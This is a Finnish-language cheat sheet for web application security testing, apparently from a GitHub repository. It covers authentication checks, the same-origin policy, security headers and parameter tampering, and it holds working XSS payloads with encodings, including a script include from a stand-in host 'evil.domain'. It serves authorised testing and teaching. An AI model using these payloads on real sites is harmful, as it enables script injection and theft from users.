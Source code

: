 # Verkkosovelluksen kybertestauksen referenssi

## Autentikoinnin tarkastuslista

* Onko tunniste satunnainen, siten että sitä ei voi arvata tai päätellä?
* Voiko tunnistetta ohjata hyökkääjän haltuun jotenkin? (HttpOnly ja secure -flagit?)
* Voiko käyttäjän puolesta tehdä pyyntöjä sovellukseen? (CSRF-esto käytössä?)
* Voiko sovelluksen tarkastusta käyttäjätunnuksesta/salasanasta manipuloida?

## Same-origin policy

|URL|Lopputulos|Syy|
|--|:---:|---:|
|http://www.example.com/dir/page2.html|Ok|Sama protokolla, host ja portti|
|http://www.example.com/dir2/other.html|Ok|Sama protokolla, host ja portti|
|http://username:password@www.example.com/dir2/other.html|Ok|Sama protokolla, host ja port|
|http://www.example.com:81/dir/other.html|Epäonnistuu|Sama protokolla, host, mutta eri portti|
|https://www.example.com/dir/other.html|Epäonnistuu|Eri protokolla|
|http://en.example.com/dir/other.html|Epäonnistuu|Eri host|
|http://example.com/dir/other.html|Epäonnistuu|Eri host (vaaditaan tarkka vastaavuus)|
|http://v2.www.example.com/dir/other.html|Epäonnistuu|Eri host (vaaditaan tarkka vastaavuus)|
|http://www.example.com:80/dir/other.html|Epäselvä|Portti määritelty. Riippuu selaimesta.|

## HTTP headerit

|Header|Mikä se on?|
|------|-----------|
X-Content-Type-Options: nosniff|Estää selainta arvaamasta uudelleen MIME-typeä.|
|Content-Type |MIME-type..|
|Content-Disposition|Liitetiedostojen erottamiseen sisällöstä, joka näytetään selaimessa.|
|X-Frame-Options:SAMEORIGIN| Estää avaamisen frameen mielivaltaisesta domainista.|
|Cookie + secure| Salaa cookien. Toimii vain jos on HTTPS.|
|cookie + HTTPOnly| Cookien käsittely javascriptilla estetty.|
|Same-Site|CSRF-esto|
|Strict-Transport-Security| Ohjeistaa selainta käyttämään aina HTTPS:ää. Ignoroidaan HTTP:tä käytettäessä.|
|Cache-Control|IE:n kanssa monenlaisia ongelmia luvassa. Voi toimia myös eri tavalla HTTPS-protokollassa.|
|X-XSS-Protection|Ehdottaa selaimelle, että sisällössä voi olla potentiaalisesti XSS sisältöä.|
|X-Forwarded-For|headeri palvelimelle reverse proxy-palvelimelta. Vastaava myös x-forwarded-host|
|Content-Security-Policy|Voi asettaa rajoituksia selaimelle sisällön suhteen.| 
|Access-Control-Allow-Origin|Jos sovellus tarvitsee Cross-origin requesteja (CORS)| 
|Upgrade-Insecure-Requests|Selain käyttää HTTPS-protokollaa HTTP:n sijaan automaattisesti.|

## Enkoodaukset

* normaali: ```alert(1)```
* Javascript, Octal: ```\141\154\145\162\164\50\61\51```
* HTML, hex: ```&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;```
* HTML, decimal: ```&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;```
* Javascript,HEX: ```\x61\x6c\x65\x72\x74\x28\x31\x29```
* Javascript, unicode ```\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029```
* Javascript, Unicode ```\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}\u{0028}\u{0031}\u{0029}```
* URL: ```%61%6c%65%72%74%28%31%29```
* Base64


## Javascriptin ajaminen (XSS)

* ```<script>alert(1)</script>```
* ```<script src="http://evil.domain/hak.js"/>```
* Viallinen HTML, esim. ```<scr<script>ipt>alert('XSS')</scr<script>ipt>```
* ```<img src="lol.jpg" onError=alert(1)>```
* onLoad, onChange yms. vastaavasti
* ```<img src=x onerror=alert('XSS')//``` - kommentin hyväksikäyttö
* ```<img src=x:alert(alt) onerror=eval(src) alt=xss>```
* ```<svg/onload=alert(1)>``` SVG-kuvaformaatin hyväksikäyttö + event handler.
* ```<svg id=alert(1) onload=eval(id)>```
* ```<input autofocus onfocus=alert(1)>```
* ```<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">```
* XML-dokumentin sisällä (CDATA ja muita keinoja)
* SVG-kuvan käyttö alustana (CDATA + script)
* JSON-rakenteen sisällä 

## URL handlerit

* data:text/html - esimerkiksi ```data:text/html,<script>alert(1)</script>```
* ```javascript:alert(1)```
* ```http://;URL=javascript:alert(1)```
* Base64-enkoodauksen hyväksikäyttö: ```data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+```
* ```mailto:```  -sähköpostin lähetys
* ```callto:```  -puhelinsoitto (esimerkiksi maksulliseen numeroon)
* ```tel:``` - puhelinsoitto (esimerkiksi maksulliseen numeroon)
* ```file://``` - tiedostojärjestelmä paikallisen koneen levyllä

## Parametrien käsittelyn rikkominen

* Parametrin jättäminen pois
* Arvon korvaaminen jollain muulla (jonkun muun id, -1,  tms..)
* Saman parametrin toistaminen useita kertoja eri arvoilla (HTTP Parameter Pollution)
* Erikoisarvojen käyttö: ```null```, ```nil```, ```NaN```, lukualueiden ääriarvot
* Erikoismerkit: ```'```, ```%``` ja muut 
* Arvojen lisääminen pyynnön mukana. 
* ylipitkän arvon käyttö
* välilyöntien käyttö alussa tai lopussa


## Piilotetut elementit käyttöliittymässä

* ```form``` elementin hidden-kentät.
* CSS-tyyleillä piilotetut käyttöliittymäelementit voivat avata pääsyn toimintoihin, joita ei pitäisi päästä käyttämään.

## OWASP Top 10 (2013)

* A1 Injection
* A2 Broken Authentication
* A3 Cross-Site Scripting (XSS)
* A4 Insecure Direct Object references
* A5 Security Misconfiguration
* A6 Sensitive Data Exposure
* A7 Missing Function Level Access Control 
* A8 Cross-Site Request Forgery (CSRF)
* A9 Using Components with Known Vulnerabilities
* A10 Unvalidated Redirects and Forwards


# Lisenssi

![lisenssi](88x31.png)

Creative Commons, Attribution-NonCommercial CC BY-NC
Kts. [LISENSSI](LICENSE).

